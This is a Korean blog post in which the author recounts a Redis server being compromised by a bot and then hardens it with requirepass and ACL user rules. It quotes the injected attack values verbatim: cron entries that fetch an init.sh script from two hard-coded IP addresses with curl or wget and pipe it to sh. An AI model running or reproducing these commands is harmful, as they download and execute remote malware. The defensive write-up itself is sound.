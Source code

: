 ```yaml
---
layout: post
title: 'redis가 해킹당했다(backup1, backup2...)'
subtitle: ''
date: 2021-12-18 12:30:15 +0900
background: '/img/posts/05.jpg'
---
```


##

데비안 서버에 redis 서비스를 설치하고 사용하고 있다.
근데 어느순간에 보니..?

![backup](/img/posts/21_12_18/backup.png)

이게...무슨일이지..?

저장해놓은 키들도 다 날아갔다.

```
backup1 \n\n\n*/2 * * * * cd1 -fsSL http://194.87.139.103/cleanfda/init.sh | sh\n\n
backup2 \n\n\n*/3 * * * * wget -q -O- http://194.87.139.103/cleanfda/init.sh | sh\n\n
backup3 \n\n\n*/4 * * * * curl -fsSL http://45.133.203.192/cleanfda/init.sh | sh\n\n
backup4 \n\n\n*/5 * * * * wd1 -q -O- http://45.133.203.192/cleanfda/init.sh | sh\n\n
```
아무리 봐도 위험한 냄새가 술술 나는 값들인데...?

테스트만 진행해보고 제대로된 조치를 안취해놓은 내가 잘못이지...
일단 뭐하는 공격인지 좀 찾아봐야겠다.


[링크](https://www.kurien.net/post/view/33)

위의 링크를 보니, redis가 자동화된 봇에 의해서 접속, 연결, 기존 데이터들을 삭제하고 위의 데이터들을 쓴 후 백업파일을 방법으로 /etc 경로의 crontab 파일을 생성하고,
크론탭이 이 값을 가지고 해킹 스크립트를 다운받고 실행하도록 만드는 구조인 것 같다.

위 링크의 글쓴이도 그렇고,
redis 서버를 실행하는 권한이 조금 더 높은 권한이여서 /etc폴더를 수정할 수 있었다면 이미 꼼짝없이 해킹당해서 비트코인이나 캐는 기계가 되지 않았을까..?

아무튼 원인도 알았고, 어떻게 이러한 일이 다시 일어나지 않게 할지 해결이나 하자.


## 해결 방법
일단 가장 큰 문제는 redis가 기본 포트로 열려있었고, 인증이 필요없이도 접근할 수 있었다.

그래서 포트를 기본포트(6379)에서 다른 포트로 바꾸었고, 인증을 사용해야만 redis 서버에 접근할 수 있게 만들어 보았다.

### redis 패스워드 설정
redis.conf 파일의 requirepass를 통해서 패스워드를 설정하는 방법과,
Redis ACL system을 통해서 username, password를 설정하는 방법 2가지가 있다.

ACL system은 redis 6.0 이상 버전에서만 지원하기 때문에, 이 점 설정전에 미리 생각해놓자.
또한, ACL system을 활성화 하기 위해서는 requirepass를 미리 활성화해놓아야 활성화되니, 이것도 같이 좀...

#### requirepass
일단 requirepass를 통해서 패스워드 설정은 쉽다.


![backup](/img/posts/21_12_18/requirepass.png)


콘솔에서 커맨드로도 설정할 수 있음!


#### ACL system
이제 ACL 시스템 기반 유저 생성과 적용을 해보자
ACL 시스템은 기존의 requirepass에서 하나의 비밀번호를 공유하는 것이 아니라, 
유저를 생성하고 유저별로 접근 가능한 키, 사용 가능한 커맨드까지 정의할 수 있기 때문에 조금 더 나은 보안을 제공할 수 있다.

일단 유저를 생성해보자!


![backup](/img/posts/21_12_18/acl.png)

성ㄱ.......앗..?

윈도우용 빌드라서 버전이 오래되서 지원하지 않는 것 같다.....

후..

일단 찾아본 내용을 바탕으로 정리한다.

유저는 다음의 두 가지 방법으로 생성되고, 수정될 수 있다.
- ACL SETUSER 라는 ACL 커맨드를 사용
- 유저를 정의하는 서버의 구성파일을 변경한 뒤 서버를 재시작시키거나, 외부의 ACL파일을 사용한 뒤 ACL LOAD 커맨드를 사용한다.
여기서는 ACL 커맨드를 사용하는 방법만 정리해본다.
외부의 ACL 파일을 이용하는 방법은, ACL 커맨드를 사용하는 방법만 잘 안다면 어렵지 않게 시도할 수 있을 것이라고 한다!


간단한 ACL SETUSER 커맨드를 시도해보자.
``` bash
> ACL SETUSER alice
OK
```

SETUSER 커맨드는 유저명과 유저에게 적용할 ACL 규칙을 나열한다. 하지만 위의 예에서는 규칙을 명시하지 않았는데, 이럴 때에 만약 유저가 존재하지 않았다면 기본 규칙을 유저에게 부여한다. 
유저가 이미 존재한다면 위의 커맨드는 아무런 일도 하지 않는다.
기본 유저의 상태를 알아보자.

``` bash
> ACL LIST
 1) "user alice off -@all"
 2) "user default on nopass ~* +@all"
```

방금 만든 유저 alice의 상태는 다음과 같다.
off 상태이며, 따라서 비활성화 상태이다. AUTH 커맨드는 작동하지 않는다.
아무 커맨드도 실행할 수 없다. 사용자가 어떤 커맨드도 액세스할 수 없는 상태로 기본적으로 생성되므로 위의 출력에서 -@all 을 생략할 수 있지만, ACL LIST에서는 명시적으로 노출했다.
결론적으로, 이 유저가 접근할 수 있는 키 패턴은 없다.
유저는 접속 가능한 패스워드도 없다.
지금 상태의 유저로는 아무 것도 할 수 없다. 이제 유저를 사용 가능하도록 패스워드도 만들고, ‘cached:’ 프리픽스로 시작하는 키를 GET 할 수 있도록 접근권한을 부여해보자.

``` bash
> ACL SETUSER alice on >p1pp0 ~cached:* +get
OK
```

이제 유저는 일부 권한을 가졌지만, 일부에 대해서는 권한이 없다.

``` bash
> AUTH alice p1pp0
OK
> GET foo
(error) NOPERM this user has no permissions to access on of the keys used as arguments
> GET cached:1234
(nil)
> SET cached:1234 zap
(error) NOPERM this user has no permissions to run the 'set' command or its subcommand
```

위의 예제에서 ACL 규칙은 우리가 예상한 대로 잘 작동되는 것을 확인할 수 있다. alice라는 유저(유저명은 대소문자를 구분함)의 현재 권한을 확인하기 위해 ACL LIST를 대체한 다른 커맨드를 사용할 수도 있다. ACL LIST는 사람이 읽기에는 조금 복잡하다.

``` bash
> ACL GETUSER alice
1) "flags"
2) 1) "on"
3) "passwords"
4) 1) "2d9c75..."
5) "commands"
6) "-@all +get"
7) "keys"
8) 1) "cached:*"
```

ACL GETUSER 커맨드는 필드-값 배열을 반환하며 이 유저를 조금 더 이해하기 쉽도록 보여준다. 결과값은 플래그 세트, 주요 패턴 목록, 암호 등을 포함한다. RESP3을 사용할 경우 아래처럼 더 읽기 쉽게 맵으로 반환한다.

``` bash
> ACL GETUSER alice
1# "flags" => 1~ "on"
2# "passwords" => 1) "2d9c75..."
3# "commands" => "-@all +get"
4# "keys" => 1) "cached:*"
```

이제 다시 ACL SETUSER 커맨드를 사용해서 유저에게 더 많은 규칙을 적용해보자.
``` bash
> ACL SETUSER alice ~objects:* ~items:* ~public:*
OK
> ACL LIST
1) "user alice on >2d9c75... ~cached:* ~objects:* ~items:* ~public:* -@all +get"
2) "user default on nopass ~* +@all
```



### 결론
별 문제도 아닌거 가지고 한시간동안 넣어놨던 키들 다 사라지고.....
오늘의 교훈을 바탕으로 보안 설정도 다 해놓게 되었다.

서버 설정할때는 항상 작은 보안에도 조심 또 조심해야겠다
내 데이터 소듕해...